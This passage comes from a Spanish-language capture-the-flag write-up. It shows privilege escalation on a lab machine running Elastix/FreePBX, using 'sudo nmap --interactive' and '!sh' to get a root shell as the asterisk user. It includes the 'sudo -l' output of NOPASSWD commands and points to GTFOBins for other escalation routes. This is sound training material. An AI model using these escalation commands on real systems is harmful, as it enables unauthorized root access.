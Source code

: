 
Bueno, el mismo Exploit nos indica que hacer y es activar la **herramienta nmap** con **SUDO** de forma interactiva, para poder usar **nmap** desde la consola y no como comando, solamente escribimos **!sh** y podremos escalar privilegios para ser **Root**:

```bash
sudo nmap --interactive
Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
whoami
root
```

Ya solo es buscar las flags que la del Root se encuentra en **/root** y la del usuario en **/home**.

Lo que hicimos fue abusar de los privilegios que tiene el usuario **Asterisk** que como ya vimos está ligado al servicio **Elastix**, **FreePBX** y otros. Si recordamos su definición, este usuario tiene ciertos privilegios para poder operar.

Con el comando **sudo -l** podemos ver que permisos como Root tiene dicho usuario **Asterisk**:
```bash
sudo -l
Matching Defaults entries for asterisk on this host:
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR
    LS_COLORS MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE LC_COLLATE
    LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES LC_MONETARY LC_NAME LC_NUMERIC
    LC_PAPER LC_TELEPHONE LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET
    XAUTHORITY"
User asterisk may run the following commands on this host:
    (root) NOPASSWD: /sbin/shutdown
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/bin/yum
    (root) NOPASSWD: /bin/touch
    (root) NOPASSWD: /bin/chmod
    (root) NOPASSWD: /bin/chown
    (root) NOPASSWD: /sbin/service
    (root) NOPASSWD: /sbin/init
    (root) NOPASSWD: /usr/sbin/postmap
    (root) NOPASSWD: /usr/sbin/postfix
    (root) NOPASSWD: /usr/sbin/saslpasswd2
    (root) NOPASSWD: /usr/sbin/hardware_detector
    (root) NOPASSWD: /sbin/chkconfig
    (root) NOPASSWD: /usr/sbin/elastix-helper
```
Tenemos varios permisos como Root y la mayoria son criticos. Existe una página muy útil que nos ayudara en este caso, para ver de qué otra forma podemos escalar privilegios para convertirnos en **Root**. 

Esta página es **GTFOBins**: 
* https://gtfobins.github.io/

Entonces veamos de que formas podemos escalar para ser **Root**, ojito que incluso ahí se ve una forma de usar la **herramienta nmap**, que fue el que uso el Exploit para convertirnos en Root, así que ¡¡PROBEMOS OTROS!!
